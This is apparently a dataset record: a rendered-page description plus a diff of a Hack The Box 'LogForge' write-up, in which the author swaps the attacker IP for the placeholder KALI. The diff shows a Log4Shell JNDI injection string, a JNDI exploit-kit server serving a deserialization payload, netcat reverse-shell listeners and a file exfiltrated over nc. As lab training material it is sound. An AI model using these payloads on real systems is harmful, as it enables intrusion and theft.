

Before and after one commit to 0xZon/0xZon.github.io, a Jekyll site: the page built from _posts/2022-1-17-HTB-Logforge.md, in a window 1280 px wide and 1400 px high, scrolled down 4516 px. Shown: the part 167-1203 px from the top of the window at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2022-1-17-HTB-Logforge.md

````diff
--- a/_posts/2022-1-17-HTB-Logforge.md
+++ b/_posts/2022-1-17-HTB-Logforge.md
@@ -132,7 +132,7 @@
 #### JNDI server to catch request and send payload
 
 /opt/log4Shell/JNDI-Exploit-Kit/target
-`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.2:1389 -P /root/htb/logforge/cc5.ser`
+`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L KALI:1389 -P /root/htb/logforge/cc5.ser`
 
 #### Set up listener
 
@@ -142,7 +142,7 @@
 
 ```
 ┌──(root💀kali)-[/opt/log4Shell/JNDI-Exploit-Kit/target]
-└─# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.2:1389 -P /root/htb/logforge/cc5.ser
+└─# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L KALI:1389 -P /root/htb/logforge/cc5.ser
 Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
        _ _   _ _____ _____      ______            _       _ _          _  ___ _                                                                                                                    | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |
       | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_
@@ -169,7 +169,7 @@
 ┌──(root💀kali)-[~]
 └─# nc -lvnp 9002                                                                         1 ⨯
 listening on [any] 9002 ...
-connect to [10.10.14.2] from (UNKNOWN) [10.10.11.138] 53210
+connect to [KALI] from (UNKNOWN) [10.10.11.138] 53210
 bash: cannot set terminal process group (827): Inappropriate ioctl for device
 bash: no job control in this shell
 tomcat@LogForge:/var/lib/tomcat9$ id
@@ -193,14 +193,14 @@
 Connected to localhost.
 220 Welcome to the FTP-Server
 Name (localhost:tomcat): ${jndi:ldap://KALI:9002}
-${jndi:ldap://10.10.14.2:9002}
+${jndi:ldap://KALI:9002}
 ```
 
 ```
 ┌──(root💀kali)-[/opt/log4Shell/ysoserial-modified/target]
 └─# nc -lvnp 9002
 listening on [any] 9002 ...
-[Cconnect to [10.10.14.2] from (UNKNOWN) [10.10.11.138] 53214
+[Cconnect to [KALI]om (UNKNOWN) [10.10.11.138] 53214
 0
  `
 ```
@@ -219,7 +219,7 @@
 ┌──(root💀kali)-[~/htb/logforge]
 └─# nc -lvnp 9001 > ftpServer.jar                                                                                                                                                        1 ⨯
 listening on [any] 9001 ...
-connect to [10.10.14.2] from (UNKNOWN) [10.10.11.138] 40102
+connect to [KALI] from (UNKNOWN) [10.10.11.138] 40102
 ```
 
 Now I can use `jd-gui` to pick apart this code.
````
